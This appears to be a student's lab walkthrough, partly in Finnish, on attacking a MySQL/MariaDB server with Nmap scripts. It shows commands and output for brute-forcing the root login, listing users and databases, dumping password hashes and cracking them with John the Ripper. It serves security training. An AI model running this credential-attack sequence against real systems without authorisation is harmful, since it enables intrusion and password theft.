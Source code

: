 Listing MySQL databases 
===

MySQL is an open Source for Relational Database Management System that uses structured query language for generating database record.  

Let’s Begin !!!

# Scanning for port 3306

 open the terminal and type following command to check MySQL service is activated on the targeted system or not, basically MySQL service is activated on default port 3306.


```
nmap -sT 192.168.1.216
```
# Retrieve MySQL information

Now type another command to retrieve MySQL information such as version, protocol and etc:

```
nmap --script=mysql-info 192.168.1.216
``````
### Example....

```
nmap --script=mysql-info 192.168.10.170
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:13 EET
Nmap scan report for 192.168.10.170
Host is up (0.013s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.4-MariaDB-1~deb12u1
|   Thread ID: 145323
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolNew, SupportsTransactions, Speaks41ProtocolOld, InteractiveClient, Support41Auth, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, LongColumnFlag, SupportsCompression, FoundRows, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: VIM'xLO)}\7:]F(4j:":
|_  Auth Plugin Name: mysql_native_password
5900/tcp open  vnc

Nmap done: 1 IP address (1 host up) scanned in 3.29 seconds
```
Above command try to connect to with MySQL server and hence prints information such as the protocol: 10, version numbers: 5.5.5-10.11.4-MariaDB-1~deb12u1, thread ID: 145323, status: auto-commit, capabilities, and the password salt as shown in given image.

## Brute force attack

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-brute 192.168.10.170
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:33 EET
Nmap scan report for 192.168.10.170
Host is up (0.24s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute: 
|   Accounts: 
|     root:root - Valid credentials
|_  Statistics: Performed 45009 guesses in 232 seconds, average tps: 196.6

Nmap done: 1 IP address (1 host up) scanned in 233.17 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap --script=mysql-brute 192.168.10.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:38 EET
Nmap scan report for 192.168.10.170
Host is up (0.0092s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
3306/tcp open  mysql
| mysql-brute: 
|   Accounts: 
|     root:root - Valid credentials
|_  Statistics: Performed 45009 guesses in 260 seconds, average tps: 176.7
5900/tcp open  vnc

Nmap done: 1 IP address (1 host up) scanned in 263.01 seconds
                                                                                           ## Finding root accounts with an empty password in MySQL servers
                                                                                                                            
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-empty-password 192.168.10.170 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:56 EET
Nmap scan report for 192.168.10.170
Host is up (0.0086s latency).

PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds

## Listing MySQL users

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-users --script-args mysqluser=root,mysqlpass=root 192.168.10.170
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 09:58 EET
Nmap scan report for 192.168.10.170
Host is up (0.0046s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-users: 
|   21Oppilas
|   root
|   mariadb.sys
|   mysql
|_  wpuser

Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds

```

# Detecting insecure configurations in MySQL servers

Insecure configurations in databases could be abused by attackers. The Center for Internet Security (CIS) publishes a security benchmark for MySQL, and Nmap can use this benchmark as a base to audit the security configurations of MySQL servers. For more information can be found here: https://www.mysql.com/products/enterprise/cisbenchmark.html

Täältä voi katsoa mysql-cis.audit filen ohjeet:  https://svn.nmap.org/nmap/scripts/mysql-audit.nse


## How to do it...

To detect insecure configurations in MySQL servers, enter the following command:
```
nmap -p 3306 --script mysql-audit --script-args "mysql- audit.username='root', \
-- mysql-audit.password='root',mysql- audit.filename='nselib/data/mysql-cis.audit'"
```

## Retrieve database names

This command will fetch MySQL database name which helps of given argument mysqluser root and mysqlpass root.

```
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 192.168.10.170 --script=mysql-databases --script-args mysqluser=root,mysqlpass=root  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:21 EET
Nmap scan report for 192.168.10.170
Host is up (0.12s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-databases: 
|   10Oppilas
|   11Oppilas
|   12Oppilas
|   13Oppilas
|   14Oppilas
|   15Oppilas
|   16Oppilas
|   17Oppilas
|   18Oppilas
|   19Oppilas
|   1Oppilas
|   20Oppilas
|   21Oppilas
|   22Oppilas
|   23Oppilas
|   24Oppilas
|   25Oppilas
|   26Oppilas
|   27Oppilas
|   28Oppilas
|   2Oppilas
|   30Oppilas
|   3Oppilas
|   4Oppilas
|   5Oppilas
|   6Oppilas
|   7Oppilas
|   8Oppilas
|   9Oppilas
|   DigiOs
|   Maila
|   SuperP
|   Vuokatti
|   employee
|   information_schema
|   mikandb
|   mydb
|   mysql
|   news
|   performance_schema
|   saaAsema
|   sys
|   testinews
|_  wpdb

Nmap done: 1 IP address (1 host up) scanned in 1.04 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ 
```
## Retrieve Hash Dump

This command will Dumps the password hashes from a MySQL server in a format suitable for cracking by tools such as John the Ripper.

```
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 192.168.10.170 --script=mysql-dump-hashes --script-args username=root,password=root
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:24 EET
Nmap scan report for 192.168.10.170
Host is up (0.011s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-dump-hashes: 
|   root:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   mysql:invalid
|   wpuser:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
|_  21Oppilas:*C5B1A33B622B93204CBE66EA5D17342D0F2397CF

Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ 
```
## John the Ripper

```
--Luodaan tiedosto, johon hash salasana kopioidaan

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ touch hashes.txt   
                                                                                           -- Avataan tiedosto   ja kopioidaan kryptattu salasana                                                
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nano hashes.txt   
                                                                                           -- Ja john tulille

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ john hashes.txt                               
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 ASIMD 4x])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
root             (?)     
1g 0:00:00:01 DONE 3/3 (2023-12-13 11:36) 0.9708g/s 5464Kp/s 5464Kc/s 5464KC/s roob..rooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ 
```



